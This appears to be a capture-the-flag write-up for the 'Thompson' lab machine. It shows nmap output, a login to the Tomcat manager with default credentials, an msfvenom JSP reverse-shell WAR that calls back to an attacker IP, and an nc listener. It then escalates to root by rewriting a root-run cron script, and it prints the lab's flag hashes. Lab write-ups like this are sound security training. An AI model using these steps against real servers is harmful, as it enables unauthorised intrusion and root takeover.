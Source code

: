 # Thompson By Mian Al Ruhanyat
## Links 
- 10.10.25.211

## Post Scanning
```sh

nmap -sS -sV -O 10.10.25.211 >> ports.txt


Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-24 10:38 EDT
Nmap scan report for 10.10.25.211
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 8.5.5
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=7/24%OT=22%CT=1%CU=40969%PV=Y%DS=5%DC=I%G=Y%TM=66A1
OS:1253%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=108%TI=Z%II=I%TS=A)SEQ(S
OS:P=106%GCD=1%ISR=10A%TI=Z%TS=A)SEQ(SP=106%GCD=1%ISR=10A%TI=Z%II=I%TS=A)SE
OS:Q(SP=107%GCD=1%ISR=109%TI=Z%TS=8)SEQ(SP=107%GCD=1%ISR=10A%TI=Z%CI=I%II=I
OS:%TS=C)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O
OS:5=M508ST11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6
OS:=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O
OS:%A=O%F=AS%RD=0%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T
OS:4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+
OS:%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y
OS:%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%
OS:RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.38 seconds

```
- We found there is a http apache tomcat server 
- we know that tomcat is used for java server pages  

![image](https://github.com/user-attachments/assets/6c7f619e-acf2-4724-a287-fe0ea1a18746)

- If we go to the port `10.10.25.211:8080` we can have a tomcat page

![image1](https://github.com/user-attachments/assets/5901ced1-e07c-4aab-b432-8c890a7f2927)

- If we click the manager app it is giving us a login page

![image2](https://github.com/user-attachments/assets/fc21d05b-7413-4b59-bc66-53c29e4a7bb0)

- If we cancel the pop-up it is giving us an error

![image3](https://github.com/user-attachments/assets/f18ee47f-dbaa-4f70-8eef-a659eeb4aab4)

- Here we can have the password
    - name:`tomcat`
    - password:`s3cret`

- In the manager page we can add WAR files from our system

![image3](https://github.com/user-attachments/assets/38885196-c66f-417b-b75d-0b86ebc12280)

- Now we will write a reverse shell or we can use the metaspoitable tool 

- `msfvenom -p java/jsp_shell_reverse_tcp lhost=<Attacker_Ip> lport=1234 -f war > shell.war`

- We are doing through manual reverse shell

![image4](https://github.com/user-attachments/assets/69bed96f-bd30-40a9-9055-b7107408b100)

- we will deploy the shell 

```sh
└─$ nc -nlvp 1234                                          
listening on [any] 1234 ...

```
- And go to the `10.10.25.211:8080/shell`

```sh
└─$ nc -nlvp 1234                                          
listening on [any] 1234 ...
connect to [10.17.88.30] from (UNKNOWN) [10.10.25.211] 54786
ls
bin
home
initrd.img
initrd.img.old
opt
proc
root
```

## We are In!

```sh
cd /home
ls
jack
cd jack
ls 
id.sh
test.txt
user.txt
cat user.txt
39400c90bc683a41a8935e4719f181bf


$ ls
id.sh
test.txt
user.txt
$ cat id.sh
#!/bin/bash
id > test.txt
$ cat test.txt 
uid=0(root) gid=0(root) groups=0(root)


```

## Privilege Escalation
`echo '#!/bin/bash  
cat /root/root.txt > test.txt' > id.sh` 

- We will use this command for converting the root.txt to test.txt
- Because the test.txt has the root privilege
```sh
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	root	cd /home/jack && bash id.sh

$ echo ' #!/bin/bash  
cat /root/root.txt > test.txt' > id.sh

$cat id.sh
 #!/bin/bash  
cat /root/root.txt > test.txt
$ cat test.txt
d89d5391984c0450a95497153ae7ca3a


```



### **User-txt: `39400c90bc683a41a8935e4719f181bf`**
### **Root-txt: `d89d5391984c0450a95497153ae7ca3a `**

# Pwned!!
